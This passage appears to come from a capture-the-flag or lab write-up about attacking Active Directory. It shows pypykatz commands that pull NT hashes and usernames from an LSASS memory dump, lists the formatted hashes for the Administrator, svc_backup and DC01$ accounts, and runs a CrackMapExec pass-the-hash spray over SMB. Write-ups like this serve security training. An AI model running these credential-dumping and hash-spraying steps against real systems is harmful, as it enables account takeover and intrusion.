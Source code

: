 ![ldap_result](images/browser_olG2XG6qKU.png) 

The lockout policy was favorable for spraying attacks, indicating a high `lockoutThreshold`.

-----

### Password Spraying with CrackMapExec (CME)

Using the extracted NT hashes from the LSASS dump, a password spraying attack was performed with `CrackMapExec` (CME) via SMB. This allowed us to test the extracted hashes against multiple user accounts.

First, the usernames and hashes were extracted and formatted for CME:

```bash
pypykatz lsa minidump lsass.DMP | grep 'NT:' | awk '{ print $2 }' | sort -u > hashes
pypykatz lsa minidump lsass.DMP | grep 'Username:' | awk '{ print $2 }' | sort -u > users
```

The `hashes` file needed to be formatted to include the LM hash (which is often `aad3b435b51404eeaad3b435b51404ee` if not present) for CME. The final `hashes` file looked like this:

```
aad3b435b51404eeaad3b435b51404ee:7f1e4ff8c6a8e6b6fcae2d9c0572cd62 # Administrator
aad3b435b51404eeaad3b435b51404ee:9658d1d1dcd9250115e2205d9f48400d # svc_backup
aad3b435b51404eeaad3b435b51404ee:b624dc83a27cc29da11d9bf25efea796 # DC01$
```

Then, the CME command was executed:

```bash
cme smb 10.129.93.138 -u users -H hashes
```

![cme_result](images/browser_HnyDlR7ELO.png)
